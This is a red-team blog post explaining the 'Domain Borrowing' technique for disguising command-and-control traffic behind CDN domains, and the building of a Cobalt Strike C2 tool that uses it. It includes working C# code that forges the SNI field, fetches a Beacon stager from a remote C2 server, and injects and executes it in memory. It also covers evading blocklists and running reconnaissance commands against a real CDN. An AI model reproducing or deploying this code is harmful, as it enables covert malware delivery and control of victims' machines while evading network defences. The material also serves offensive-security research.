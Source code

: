 ```yaml
---
title: Malware packers
author: Cerbersec
layout: post
---
```


In this post I will go over the basics of Domain Borrowing and how [DomainBorrowingC2](https://github.com/Cerbersec/DomainBorrowingC2) was built.

## Do you mind if I borrow your domain?

A new technique dubbed "Domain Borrowing" was recently presented at [Blackhat Asia 2021](https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf) by [Junyu Zhou](https://twitter.com/md5_salt) and Tianze Ding. They released a public [PoC](https://github.com/Dliv3/DomainBorrowing) for [Covenant](https://github.com/cobbr/Covenant).

SSL stripping and comparing the `Host` header and the **Server Name Indication (SNI)** field is one of the contributing factors that killed Domain Fronting. SNI is an extension to the TLS protocol by which a client indicates which hostname it is attempting to connect to at the start of the handshaking process. A possible workaround is to use Encrypted SNI (ESNI), however requests that have both a SNI and ESNI are frequently blocked by enterprise environments, Cloudflare, and even country-wide firewalls.

Domain Borrowing is in a sense much like Domain Fronting, except it makes sure the `Host` header and **SNI** field are the same. When a CDN is registered, a certificate and private key are uploaded to the CDN after which a CNAME DNS record is created that points the cdn.domain.name to the CDN provider's servers.

A client performing a HTTPS request can use another CDN domain hosted at the same CDN provider for DNS resolution.

![CDN DNS Resolution](/assets/images/db-cdn-dns-resolution.png)
`Image credits: https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf`

Combined with a CDN provider that lets us register arbitrary domains without validation we end up in a scenario where we use a legitimate domain for DNS resolution and perform a HTTPS request with our malicious target in the `Host` and **SNI** fields.

![Malicious request](/assets/images/db-malicious-request.png)
`Image credits: https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf`

This is great to bypass Domain Fronting detection when SSL stripping is performed and the `Host` and **SNI** fields are compared, but it still uses incorrect HTTPS certificates. When a CDN can't find the certificate, it will most likely send the default certificate to the client. Some CDNs send a `TCP RST` to the client.

There are multiple ways to obtain a valid HTTPS certificate outlined in the [slides](https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf). One of these methods leverages improper distribution of wildcard certificates.

![Borrow wildcard certificate](/assets/images/db-borrow-wildcard-certificate.png)
`Image credits: https://i.blackhat.com/asia-21/Thursday-Handouts/as-21-Ding-Domain-Borrowing-Catch-My-C2-Traffic-If-You-Can.pdf`

## On the hunt

There are a couple ways of finding wildcard certificates. Using [crt.sh](https://crt.sh) you can get a quick overview of all the registered certificates associated with a domain.

![crt.sh](/assets/images/db-crt-sh.png)

Then you can start digging deeper with commands like `dig`, `whois` and `curl --resolve`.

`dig bootstrapcdn.com`
![dig bootstrapcdn.com](/assets/images/db-dig-bootstrapcdn.png)

`curl https://img.bootstrapcdn.com/test.php --resolve img.bootstrapcdn.com:443:151.139.128.11 -v`
![curl resolve](/assets/images/db-curl-resolve-bootstrapcdn.png)

A majority of websites are hidden behind reverse proxies like Cloudflare so you'll need to dig deeper to figure out their actual server IP.

## How to C2, a DIY approach

The original [PoC](https://github.com/Dliv3/DomainBorrowing) written in C# implements Domain Borrowing for the Covenant framework. I set out on a journey to port this over to Cobalt Strike.

At first I tried to use Cobalt Strike's [Malleable C2 profile](https://www.cobaltstrike.com/help-malleable-c2). Malleable C2 allows you to completely customize and control what your Beacon's HTTP traffic looks like. A single profile can be specified for use at startup of the Teamserver.

```
./teamserver [external IP] [password] [/path/to/my.profile]
```

Malleable C2 controls things like HTTP methods, encryption and compression routines, cookies, headers, jitter, user agents and more. Unfortunately as of right now it doesn't let you control the **SNI** field.

Back to the drawing board I went.

Shortly after, I ended up watching [Rasta Mouse](https://twitter.com/_RastaMouse) stream some Covenant development on [Twitch](https://www.twitch.tv/rastam0us3). He was working on a [Bridge](https://github.com/cobbr/Covenant/wiki/C2Bridges) to implement communication between Covenants Teamserver and Implant (Grunt) over DNS. That reminded me of Cobalt Strike's [External C2 spec](https://www.cobaltstrike.com/help-externalc2) which I briefly touched when I looked at [F-Secure's C3](https://github.com/FSecureLABS/C3). I also remembered [Ryan Hanson](https://twitter.com/ryhanson) wrote a [C# implementation](https://github.com/ryhanson/ExternalC2) of the External C2 spec, which was used by the [DNS over HTTPS PoC](https://github.com/SpiderLabs/DoHC2) by SpiderLabs.

I ended up combining Ryan's External C2 library with the Covenant PoC and rewrote parts of it to be compatible with .NET Core 3.1 and change the way the server handles requests from the CDN. The result is [DomainBorrowingC2](https://github.com/Cerbersec/DomainBorrowingC2).

### ServerC2

ServerC2 is a basic ASP.NET Core application which acts as a listener for ClientC2 via endpoints. ServerC2 is responsible for relaying traffic coming from ClientC2 via the CDN to Cobalt Strike's Teamserver via the ExternalC2 Socket. I modified the controllers to separate traffic meant for fetching the stager to use the `/stager` endpoint and traffic that originates from Beacon and is meant for the Teamserver to use `/beacon`. I also had to change the HTTP method PUT to POST because the CDN provider did not handle that correctly.

### ClientC2

ClientC2 is a .NET Core 3.1 Console application. This is mostly a thinned out version of Ryan's ExternalC2, but with a custom HttpsClient provided by the Covenant PoC and a custom implementation of the WebChannel, now called DomainBorrowingChannel (original I know).

The HttpsClient's `initSsl()` method holds the secret to domain borrowing, namely setting the **SNI** manually.

```csharp
private SslStream initSsl()
{
    X509Certificate2 ourCA = new X509Certificate2();
    RemoteCertificateValidationCallback callback = (sender, cert, chain, errors) =>
    {
        bool valid = true;
        if (valid && ValidateCert)
        {
            valid = errors == SslPolicyErrors.None;
        }
        return valid;
    };
    try
    {
        TcpClient client = new TcpClient(ip, port);
        SslStream sslStream = new SslStream(client.GetStream(), false, callback, null);
        // we pass SNI as first parameter to AuthenticateAsClient()
        sslStream.AuthenticateAsClient(sni, null, SslProtocols.Tls | (SslProtocols)768 | (SslProtocols)3072 | (SslProtocols)12288, true);
        return sslStream;
    }
    catch (Exception e)
    {
        Console.Error.WriteLine(e.Message + Environment.NewLine + e.StackTrace);
        return null;
    }
}
```

The main goal of ClientC2 is fetching and executing the stager from ServerC2. It does this in 2 steps. First it sets up a connection and asks for options to configure itself by sending an `OPTIONS` request. ServerC2 will respond with an identifier header `X-Id-Header` and a Beacon identifier header `X-Identifier`.

```csharp
public bool Connect()
{
    string[] parseHeaders = _client.Options("/beacon", "").Split("\n");
    string idHeader = string.Empty;
    string beaconId = string.Empty;

    foreach(string header in parseHeaders)
    {
        if(header.Contains("X-Id-Header"))
        {
            idHeader = header.Split(" ")[1];
        }
        else if(header.Contains("X-Identifier"))
        {
            beaconId = header.Split(" ")[1];
        }
    }

    if(beaconId != null)
    {
        this.BeaconId = new Guid(beaconId);
        headers.Add(idHeader, this.BeaconId.ToString());
        this.Connected = true;
    }
    else
    {
        this.Connected = false;
    }

    return this.Connected;
}
```

Next it will fetch the stager from the `/stager` endpoint. We configure a custom User Agent to make sure we get past Cobalt Strike's default blocklist and specify the system architecture which is used by Cobalt Strike to determine the type of payload.

```csharp
public byte[] GetStager(string pipeName, bool is64Bit, int taskWaitTime = 100)
{
    var bits = is64Bit ? "x64" : "x86";
    headers.Add("User-Agent", $"Mozilla/5.0 (Windows NT 10.0; {bits}; Trident/7.0; rv:11.0) like Gecko");

    var response = _client.Post("/stager", string.Empty, headers);

    return Convert.FromBase64String(response);
}
```

The client will then inject the stager into the current process and execute it in memory and attempt to connect to Beacon.

```csharp
public override Func<bool> Initialize => () =>
{
    Console.WriteLine("[-] Connecting to Web Endpoint");
    if (!Server.Connect()) return false;

    Console.WriteLine("[-] Grabbing stager bytes");
    PipeName = Server.BeaconId;
    var stager = Server.GetStager(PipeName.ToString(), Is64Bit);

    Console.WriteLine("[-] Creating new stager thread");
    if (InjectStager(stager) == 0) return false;
    Console.WriteLine("[+] Stager thread created!");

    Console.WriteLine($"[-] Connecting to pipe {PipeName}");
    Beacon.SetPipeName(PipeName);
    if (!Beacon.Connect()) return false;
    Console.WriteLine("[+] Connected to pipe. C2 initialization complete!");

    return true;
};
```

Successful callback!

![Callback](/assets/images/db-domain-borrowing-callback.png)